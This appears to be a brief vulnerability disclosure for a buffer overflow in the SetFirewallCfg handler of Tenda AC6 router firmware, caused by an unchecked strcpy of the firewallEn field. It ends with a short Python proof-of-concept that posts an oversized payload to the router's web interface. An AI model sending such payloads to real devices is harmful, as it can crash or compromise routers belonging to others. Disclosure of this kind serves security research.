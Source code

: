 # buffer overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buffer overflow in httpd/SetFirewallCfg

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](../Tenda_AC10U_V1/14.png)

get value from firewallEn, then call strcpy, cause buff overflow





## POC
```
url = "http://192.168.1.13/goform/SetFirewallCfg"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'firewallEn': payload})
``` 
